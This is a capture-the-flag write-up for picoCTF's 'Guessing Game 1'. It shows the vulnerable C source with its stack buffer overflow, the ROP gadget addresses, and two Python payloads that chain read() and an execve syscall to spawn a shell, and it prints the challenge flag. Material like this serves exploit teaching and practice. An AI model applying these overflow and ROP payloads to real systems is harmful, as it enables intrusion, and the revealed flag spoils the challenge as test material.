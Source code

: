
# Guessing Game 1

*Hard*

>### Description
>I made a simple game to show off my programming skills. See if you can beat it! [vuln](https://jupiter.challenges.picoctf.org/static/3087c07bcba6f4ca29aa2dffab66c19f/vuln) [vuln.c](https://jupiter.challenges.picoctf.org/static/3087c07bcba6f4ca29aa2dffab66c19f/vuln.c) [Makefile](https://jupiter.challenges.picoctf.org/static/3087c07bcba6f4ca29aa2dffab66c19f/Makefile) `nc jupiter.challenges.picoctf.org 28953`

### Solution

Lets look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

#define BUFSIZE 100


long increment(long in) {
        return in + 1;
}

long get_random() {
        return rand() % BUFSIZE;
}

int do_stuff() {
        long ans = get_random();
        ans = increment(ans);
        int res = 0;

        printf("What number would you like to guess?\n");
        char guess[BUFSIZE];
        fgets(guess, BUFSIZE, stdin);

        long g = atol(guess);
        if (!g) {
                printf("That's not a valid number!\n");
        } else {
                if (g == ans) {
                        printf("Congrats! You win! Your prize is this print statement!\n\n");
                        res = 1;
                } else {
                        printf("Nope!\n\n");
                }
        }
        return res;
}

void win() {
        char winner[BUFSIZE];
        printf("New winner!\nName? ");
        fgets(winner, 360, stdin);
        printf("Congrats %s\n\n", winner);
}

int main(int argc, char **argv){
        setvbuf(stdout, NULL, _IONBF, 0);
        // Set the gid to the effective gid
        // this prevents /bin/sh from dropping the privileges
        gid_t gid = getegid();
        setresgid(gid, gid, gid);

        int res;

        printf("Welcome to my guessing game!\n\n");

        while (1) {
                res = do_stuff();
                if (res) {
                        win();
                }
        }

        return 0;
}
```

The normal flow of this program is that the user inputs a number to guess. And if it is correct, they can input their name, in the `win()` function. I notice two things:
- There isn't any flag mentioned in the code, so we probably need to get a shell.
- There is a buffer overflow in the win function. It gets a size of 360, while the buffer is only 100.

To get to the win function, you can just brute force, since it is only numbers from 1 to 100.

With a long payload as name input in the win function, using gdb, I found the offset between the user input and the return address. It is 120 bytes. 

I tried injecting shellcode, and using this ROP gadget: "jmp rsp", to jump to my code. But it only gave errors. I found out it was because the binary has NX enabled, which means the writable memory is not allowed to be executed. 

>I didn't really know how to exploit ROP, so I found a writeup to help me. (Apperently, rand() has a static seed, so it is the same every time. The first two numbers are 84 and 87)

The exploit has two parts:
- Write /bin/sh somewhere is memory
- Do a syscall on this written memory to get a shell

Luckily, the binary contains a lot of code so we have a lot of possible gadgets to work with. We find these gadgets (using ROPgadget) that allow us to write to rax, the first three function arguments, and use syscall:
```
0x00000000004163f4 : pop rax ; ret
0x0000000000400696 : pop rdi ; ret
0x0000000000410ca3 : pop rsi ; ret
0x000000000044cc26 : pop rdx ; ret
0x000000000040137c : syscall
```
We can also find the addresses of the `read()` and `main()` functions. And the location of some writeable memory, in the .bss section of the binary. 

So the first payload will look something like this:
```python
payload1 = b'a' * 120
payload1 += p64(pop_rax)
payload1 += p64(0)
payload1 += p64(pop_rdi)
payload1 += p64(0)
payload1 += p64(pop_rsi)
payload1 += p64(bss)
payload1 += p64(pop_rdx)
payload1 += p64(9)
payload1 += p64(read)
payload1 += p64(main)

shell_line = b'/bin/sh\x00'
```
It will call the read function, after which we will supply it with the shell string. Lastly it returns to main so we can exploit the overflow in `win()` once more.

The second payload uses a syscall to call `execve()`, and run the shell. The payload looks like this:
```python
payload2 = b'a' * 120
payload2 += p64(pop_rax)
payload2 += p64(0x3b)
payload2 += p64(pop_rdi)
payload2 += p64(bss)
payload2 += p64(pop_rsi)
payload2 += p64(0)
payload2 += p64(pop_rdx)
payload2 += p64(0)
payload2 += p64(syscall)
```

The full code I used is available [here](./exploit.py). With the remote shell, you can easily read the flag.txt file.

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_b30e66e722f3f0d0}
</details>